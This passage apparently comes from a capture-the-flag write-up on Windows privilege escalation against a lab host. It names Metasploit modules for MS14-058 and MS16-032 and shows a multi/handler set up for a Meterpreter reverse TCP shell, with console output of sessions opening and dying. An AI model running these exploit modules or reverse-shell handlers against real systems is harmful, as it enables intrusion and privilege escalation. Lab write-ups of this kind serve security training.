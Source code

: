 Both `MS14-058` and `MS16-032` vulnerabilties have Metasploit exploits for them. 

For `MS14-058`:
```
msf5 > use exploit/windows/local/ms14_058_track_popup_menu
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options

Module options (exploit/windows/local/ms14_058_track_popup_menu):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
...
```
For `MS16-032`:
```
msf5 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp   
msf5 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > show options

Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
...
```
However, they require existing Metasploit sessions before privilege esclating them.

Let's try to get a Meterpreter session!
```
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options
...
msf5 exploit(multi/handler) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Sending stage (201283 bytes) to 10.10.10.8
[*] Sending stage (201283 bytes) to 10.10.10.8
[*]  - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (10.10.x.x:4444 -> 127.0.0.1) at 2021-01-17 11:55:51 +0800
[*] Sending stage (201283 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.x.x:4444 -> 127.0.0.1) at 2021-01-17 11:55:52 +0800
[*] Sending stage (201283 bytes) to 10.10.10.8
[*]  - Meterpreter session 2 closed.  Reason: Died
[*]  - Meterpreter session 3 closed.  Reason: Died
[*] Meterpreter session 3 opened (10.10.x.x:4444 -> 127.0.0.1) at 2021-01-17 11:55:52 +0800
```
Nope, we can't get a Meterpreter shell directly.
